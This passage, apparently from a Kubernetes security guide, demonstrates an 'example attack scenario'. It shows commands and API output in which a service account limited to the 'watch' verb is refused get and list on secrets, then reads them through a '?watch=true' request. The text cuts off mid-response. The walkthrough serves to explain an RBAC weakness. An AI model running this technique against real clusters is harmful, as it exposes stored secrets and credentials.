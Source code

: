 #### Example Attack Scenarios
```bash

# Create example A, which can only watch secrets in the default namespace
# It does not have the GET permission
kubectl create serviceaccount only-watch-secrets-sa
kubectl create role only-watch-secrets-role --verb=watch --resource=secrets
kubectl create rolebinding only-watch-secrets-default-ns --role=only-watch-secrets-role --serviceaccount=default:only-watch-secrets-sa
# Now to impersonate that service account
kubectl proxy &
# Create a secret to get
kubectl create secret generic  abcd  --from-literal=secretPassword=verySecure
# Prove we cannot get that secret
curl http://127.0.0.1:8001/api/v1/namespaces/default/secrets/abcd -H "Authorization: Bearer $(kubectl -n default get secrets -ojson | jq '.items[]| select(.metadata.annotations."kubernetes.io/service-account.name"=="only-watch-secrets-sa")| .data.token' | tr -d '"' | base64 -d)"
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {
  },
  "status": "Failure",
  "message": "secrets \"abc\" is forbidden: User \"system:serviceaccount:default:only-watch-secrets-sa\" cannot get resource \"secrets\" in API group \"\" in the namespace \"default\"",
  "reason": "Forbidden",
  "details": {
    "name": "abcd",
    "kind": "secrets"
  },
  "code": 403
}

# Prove we cannot list the secrets either
curl http://127.0.0.1:8001/api/v1/namespaces/default/secrets?limit=500 -H "Authorization: Bearer $(kubectl -n default get secrets -ojson | jq '.items[]| select(.metadata.annotations."kubernetes.io/service-account.name"=="only-watch-secrets-sa")| .data.token' | tr -d '"' | base64 -d)"
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {
    
  },
  "status": "Failure",
  "message": "secrets is forbidden: User \"system:serviceaccount:default:only-watch-secrets-sa\" cannot list resource \"secrets\" in API group \"\" in the namespace \"default\"",
  "reason": "Forbidden",
  "details": {
    "kind": "secrets"
  },
  "code": 403
}

# Now to get all secrets in the default namespace, despite not having "get" permission
curl http://127.0.0.1:8001/api/v1/namespaces/default/secrets?watch=true -H "Authorization: Bearer $(kubectl -n default get secrets -ojson | jq '.items[]| select(.metadata.annotations."kubernetes.io/service-account.name"=="only-watch-secrets-sa")| .data.token' | tr -d '"' | base64 -d)"

{
  "type": "ADDED",
  "object": {
    "kind": "Secret",
    "apiVersion": "v1",
```